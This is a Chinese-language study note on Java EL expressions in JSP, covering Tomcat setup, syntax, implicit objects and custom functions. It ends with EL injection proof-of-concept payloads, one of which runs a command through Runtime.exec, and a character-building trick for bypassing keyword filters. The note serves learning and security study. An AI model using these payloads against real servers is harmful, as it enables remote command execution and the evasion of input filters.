## 介绍

EL 全名为Expression Language，是为了使JSP写起来更加简单。表达式语言的灵感来自于 ECMAScript 和 XPath 表达式语言，它提供了在 JSP 中简化表达式的方法，让Jsp的代码更加简化。

EL主要作用：

- 获取数据

    EL表达式主要用于替换JSP页面中的脚本表达式，以从各种类型的web域 中检索java对象、获取数据。(某个web域 中的对象，访问javabean的属性、访问list集合、访问map集合、访问数组)

- 执行运算    

  利用EL表达式可以在JSP页面中执行一些基本的关系运算、逻辑运算和算术运算，以在JSP页面中完成一些简单的逻辑运算。`${user==null}`

- 获取web开发常用对象

  EL 表达式定义了一些隐式对象，利用这些隐式对象，web开发人员可以很轻松获得对web常用对象的引用，从而获得这些对象中的数据。

- 调用Java方法

  EL表达式允许用户开发自定义EL函数，以在JSP页面中通过EL表达式调用Java类的方法。


## 快速搭建tomcat环境

因为需要使用到JSP来学习EL表达式，所以想法是快速搭一个tomcat环境，之前采用的是添加tomcat依赖到`pom.xml`的方法，使用内置tomcat，但是感觉搭建环境速度太慢了，所以学了个新的方法来快速搭建tomcat环境

参考：https://blog.51cto.com/u_15119353/3309943

### 前期准备

- tomcat可用版
- IDEA

> tomcat各版本下载地址：https://archive.apache.org/dist/tomcat/tomcat-8/

### 环境搭建

先建一个平平无奇的Java项目



然后右键，选择`Add Framework Support...`


勾选`Web Application`



这个时候就会多一个web目录，也就是我们的`webapps`目录



打开`Project Structure`窗口，新建2个文件夹在`WEB-INF`目录下，分别是`classes`和`lib`，这一步是为了添加项目类路径



修改编译后的类路径到我们刚才新建的`classes`目录下



添加本地tomcat服务器



配置好需要的信息，然后`Fix`修复一下



给应用上下文路径设置为跟路径，如果这里设置为`/a` 则访问就变成 `localhost:8080/a/`



然后启动运行即可


项目结构



## EL表达式使用

### EL基础语法

在JSP中访问模型对象是通过EL表达式的语法来表达。所有EL表达式的格式都是以`${}`表示。

例如，`${userinfo}`代表获取变量userinfo的值。**当EL表达式中的变量不给定范围时，则默认在page范围查找，然后依次在request、session、application范围查找。**也可以用范围作为前缀表示属于哪个范围的变量，例如：`${pageScope.userinfo}`表示访问page范围中的userinfo变量。

---

简单地说，使用EL表达式语法：`${EL表达式}`

其中，**EL表达式和JSP代码等价转换**。事实上，可以将EL表达式理解为一种简化的JSP代码。

扩展JSP代码的写法总结：

- JSP表达式：`<%=变量或表达式>`
    向浏览器输出变量或表达式的计算结果。
- JSP脚本：`<%Java代码%>`
    执行java代码的原理：翻译到_jspService()方法中。
- JSP声明：`<%!变量或方法%>`
    声明jsp的成员变量或成员方法。
- JSP注释：`<%!--JSP注释--%>`
    用于注释JSP代码，不会翻译到Java文件中，也不会执行。

### [ ]与.运算符

EL表达式提供`.`和`[]`两种运算符来存取数据。

当要存取的属性名称中包含一些特殊字符，如`.`或`-`等并非字母或数字的符号，就一定要使用`[]`。例如：`${user.My-Name}`应当改为`${user["My-Name"]}`。

如果要动态取值时，就可以用`[]`来做，而`.`无法做到动态取值。例如：`${sessionScope.user[data]}`中data 是一个变量。

### 获取变量举例

```jsp
<%@ page import="java.util.HashMap" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  request.setAttribute("name","张三");
  request.setAttribute("request", "request_name");
  session.setAttribute("session", "session_name");
  pageContext.setAttribute("page", "page_name");
  application.setAttribute("application", "application_name");
  HashMap<String, String> map = new HashMap<>();
  map.put("my-name", "admin");
  request.setAttribute("test", map);
%>

从四个作用域中搜索变量：${name}</br>
<%--获取作用域--%>
从requestScope作用域中获取变量：${requestScope.request}</br>
从sessionScope作用域中获取变量：${sessionScope.session}</br>
从pageScope作用域中获取变量：${pageScope.page}</br>
从applicationScope作用域中获取变量：${applicationScope.application}</br>
从作用域中获取特殊符号变量：${requestScope.test["my-name"]}
```

### 操作符

|  类型  | 符号                                                         |
| :----: | ------------------------------------------------------------ |
| 算术型 | +、-（二元）、`*`、/、div、%、mod、-（一元）                 |
| 逻辑型 | and、&&、or、\|\|、!、not                                    |
| 关系型 | ==、eq、!=、ne、<、lt、>、gt、<=、le、>=、ge。可以与其他值进行比较，或与布尔型、字符串型、整型或浮点型文字进行比较。 |
|   空   | empty 空操作符是前缀操作，可用于确定值是否为空。             |
| 条件型 | A ?B :C 。根据 A 赋值的结果来赋值 B 或 C。                   |

**运算符优先级如下（从高到低，从左到右）：**

- `[] .`
- `()` (用于更改运算符的优先)
- `-` (一元) `not ! empty`
- `* / div % mod`
- `+ -` (二元)
- `+=`
- `<> <= >= lt gt le ge`
- `== != eq ne`
- `&& and`
- `|| or`
- `? :`
- `->`
- `=`
- `;`

### 隐含对象

EL表达式语言中定义了11个隐含对象，使用这些隐含对象可以很方便地获取web开发中的一些常见对象，并读取这些对象的数据。
语法：`${隐式对象名称}`：获得对象的引用

| 序号 | 隐含对象名称     | 描    述                                                     |
| ---- | ---------------- | ------------------------------------------------------------ |
| 1    | pageContext      | 对应于JSP页面中的pageContext对象（注意：取的是pageContext对象。） |
| 2    | pageScope        | 代表page域中用于保存属性的Map对象                            |
| 3    | requestScope     | 代表request域中用于保存属性的Map对象                         |
| 4    | sessionScope     | 代表session域中用于保存属性的Map对象                         |
| 5    | applicationScope | 代表application域中用于保存属性的Map对象                     |
| 6    | param            | 表示一个保存了所有请求参数的Map对象                          |
| 7    | paramValues      | 表示一个保存了所有请求参数的Map对象，它对于某个请求参数，返回的是一个string[] |
| 8    | header           | 表示一个保存了所有http请求头字段的Map对象，注意：如果头里面有“-” ，例Accept-Encoding，则要header[“Accept-Encoding”] |
| 9    | headerValues     | 表示一个保存了所有http请求头字段的Map对象，它对于某个请求参数，返回的是一个string[]数组。注意：如果头里面有“-” ，例Accept-Encoding，则要headerValues[“Accept-Encoding”] |
| 10   | cookie           | 表示一个保存了所有cookie的Map对象                            |
| 11   | initParam        | 表示一个保存了所有web应用初始化参数的map对象                 |

### 函数

EL表达式语法允许开发人员开发自定义函数，以调用Java类的方法。语法：`${prefix：method(params)}`

在EL表达式中调用的只能是Java类的静态方法，这个Java类的静态方法需要在TLD文件中描述，才可以被EL表达式调用。

EL自定义函数用于扩展EL表达式的功能，可以让EL表达式完成普通Java程序代码所能完成的功能。

---

举例： ==>编写一个让所有字符大写的函数<==

一般来说， EL自定义函数开发与应用包括以下三个步骤：

1、编写一个Java类的静态方法

2、编写标签库描述符（tld）文件，在tld文件中描述自定义函数。

3、在JSP页面中导入和使用自定义函数


1、编写一个Java类的静态方法，代码如下

```java
public class ELFunc {
    public static String up(String message) {
        if (message == null){
            return null;
        }
        return message.toUpperCase();
    }
}

```

2、编写标签库描述符（tld）文件，在tld文件中描述自定义函数。

`ELFunc.tld`位置



代码

```xml
<?xml version="1.0" encoding="UTF-8"?>
<taglib version="2.0" xmlns="http://java.sun.com/xml/ns/j2ee"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-jsptaglibrary_2_0.xsd">
    <tlib-version>1.0</tlib-version>
    <short-name>ELFunc</short-name>
    <!--
     自定义EL函数库的引用URI，
     在JSP页面中可以这样引用：<%@taglib uri="/ELFunction" prefix="fn" %>
    -->
    <uri>/ELFunc</uri>
    <function>
        <!--<name>子元素用于指定EL自定义函数的名称-->
        <name>up</name>
        <!--<function-class>子元素用于指定完整的Java类名-->
        <function-class>ELFunc</function-class>
        <!--<function-signature>子元素用于指定Java类中的静态方法的签名，
20             方法签名必须指明方法的返回值类型及各个参数的类型，各个参数之间用逗号分隔。-->
        <function-signature>java.lang.String up(java.lang.String)</function-signature>
    </function>
</taglib>

```


3、在JSP页面中导入和使用自定义函数

```jsp
<%--引入EL自定义函数库 --%>
<%@taglib uri="/ELFunc" prefix="fn" %>
${fn:up("123aaabbbCCC")}
```


实验了好久代码应该是没问题的，但是还是有报错，后面需要再解决这个问题吧，今天是解决不了了，不然一天没了。。。


### 禁用/启用EL表达式

全局禁用EL表达式，web.xml中进入如下配置：

```xml
<jsp-config>
    <jsp-property-group>
        <url-pattern>*.jsp</url-pattern>
        <el-ignored>true</el-ignored>
    </jsp-property-group>
</jsp-config>
```

单个文件禁用EL表达式 在JSP文件中可以有如下定义：

```java
<%@ page isELIgnored="true" %>
```

该语句表示是否禁用EL表达式，TRUE表示禁止，FALSE表示不禁止。

JSP2.0中默认的启用EL表达式。

## EL表达式注入

原理都是一样的：表达式全部或部份外部可控。列一些通用的poc

```jsp
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc").getInputStream())}
```




## EL表达式注入绕过

通过 `charAt` 与 `toChars` 获取字符，在由 `toString` 转字符串再用 `concat` 拼接来绕过一些敏感字符的过滤

```jsp
${"xxx".toString().charAt(0).toChars(97)[0].toString()}
${"xxx".toString().charAt(0).toChars(97)[0].toString().concat("xxx".toString().charAt(0).toChars(98)[0].toString())}
```

通过以上代码，只需要修改`toChars()`中的ascii码值就可以变成任意字符

## 参考

- [javaweb学习总结(二十九)——EL表达式](https://www.cnblogs.com/xdp-gacl/p/3938361.html)

- [浅析EL表达式注入漏洞](https://xz.aliyun.com/t/7692) （很详细）
- [Java EL （Expression Language）表达式注入](http://j0k3r.top/2020/08/13/java-expression/)

